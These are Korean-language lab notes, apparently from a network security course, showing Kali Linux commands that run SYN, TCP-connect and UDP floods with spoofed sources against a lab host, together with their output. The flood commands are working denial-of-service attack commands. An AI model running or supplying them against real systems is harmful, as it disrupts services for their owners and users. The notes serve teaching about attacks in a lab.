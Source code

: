 ###### 칼리

root@kali-04:~/Desktop# hping3 --rand-source -p 80 -S 172.16.10.20 --flood

```
HPING 172.16.10.20 (eth0 172.16.10.20): S set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- 172.16.10.20 hping statistic ---
737538 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms


```

하면 XP에서 게시판 들어가면 아까와 다르게 들어가짐



#### TCP Connect Flood (112p)

###### 칼리

root@kali-04:~/Desktop# nping --tcp-connect -p 80 -rate=90000 -c 0 172.16.10.20

-c 0 = 무한반복

```
SENT (18.0376s) Starting TCP Handshake > 172.16.10.20:80
SENT (18.0418s) Starting TCP Handshake > 172.16.10.20:80
SENT (18.0515s) Starting TCP Handshake > 172.16.10.20:80
SENT (18.0563s) Starting TCP Handshake > 172.16.10.20:80
SENT (18.0602s) Starting TCP Handshake > 172.16.10.20:80
SENT (18.0633s) Starting TCP Handshake > 172.16.10.20:80
SENT (18.0654s) Starting TCP Handshake > 172.16.10.20:80
SENT (18.0678s) Starting TCP Handshake > 172.16.10.20:80
.
.
.


```



#### UDP Flodding (113p)

- 비 연결성 및 비 신뢰성 때문에 속도가 엄청 빠름 -> DDOS 공격의 주류를 이룬다.



- UDP 연결 시

root@kali-04:~/Desktop# hping3 -2 -p 53 --rand-source 172.16.10.20 --flood

```
HPING 172.16.10.20 (eth0 172.16.10.20): udp mode set, 28 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- 172.16.10.20 hping statistic ---
224908 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```
